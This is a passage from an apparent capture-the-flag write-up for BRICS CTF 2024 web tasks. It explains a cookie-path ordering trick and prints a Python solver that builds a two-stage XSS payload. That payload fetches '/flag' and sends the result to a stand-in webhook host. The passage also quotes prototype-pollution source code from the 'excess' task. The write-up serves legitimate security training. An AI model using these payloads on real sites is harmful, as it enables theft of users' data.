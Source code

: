 So the `session` cookie is inserted inside the `a` cookie. In order to place our cookie before `session` we need to set `Path=/xss` because chrome sorts cookies by path values.

Example solver:

```python
#!/usr/bin/env python3

def escape(html: str) -> str:
    return ''.join('%' + hex(ord(x))[2:].zfill(2) for x in html)

url = 'http://localhost:8989'
report = 'http://webhook.example/report'

step2 = f'''
<script>
    fetch('/flag')
        .then(x => x.text())
        .then(x => fetch('{report}?flag=' + encodeURIComponent(x)));
</script>
'''

step1 = f'''
<script>
    document.cookie = 'x="ss; Path=/xss';
    location.href = '/xss?xss={escape(step2)}';
</script>
'''

print(f'{url}/xss?xss={escape(step1)}')
```

## excess

The source code is available here: [https://github.com/C4T-BuT-S4D/bricsctf-2024-quals/tree/master/tasks/web/hard-excess/src](https://github.com/C4T-BuT-S4D/bricsctf-2024-quals/tree/master/tasks/web/hard-excess/src).

Let's describe some milestones.

### Client

Client-side problems are straightforward:

#### 1. prototype pollution

There is obvious prototype pollution in `Context.ContextProvider`:

[Context/index.tsx](https://github.com/C4T-BuT-S4D/bricsctf-2024-quals/blob/master/tasks/web/hard-excess/src/client/src/Context/index.tsx)

```ts
const context: any = { name, setName };
const previous: string = decodeURIComponent(window.location.hash.slice(1));

JSON.parse(previous || "[]").map(([x, y, z]: any[]) => context[x][y] = z);
```
